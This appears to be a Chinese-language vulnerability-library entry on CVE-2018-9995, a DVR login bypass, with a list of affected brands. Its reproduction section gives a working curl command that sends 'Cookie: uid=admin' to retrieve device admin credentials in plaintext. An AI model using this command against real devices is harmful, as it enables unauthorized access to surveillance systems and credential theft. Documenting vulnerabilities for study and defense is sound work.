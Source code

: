 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

> [!NOTE]
>
> Novo
>
> CeNova
>
> QSee
>
> Pulnix
>
> XVR 5 in 1 (title: "XVR Login")
>
> Securus, - Security. Never Compromise !! -
>
> Night OWL
>
> DVR Login
>
> HVR Login
>
> MDVR Login

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](http://wikioss.peiqi.tech/vuln/dvr-1.png)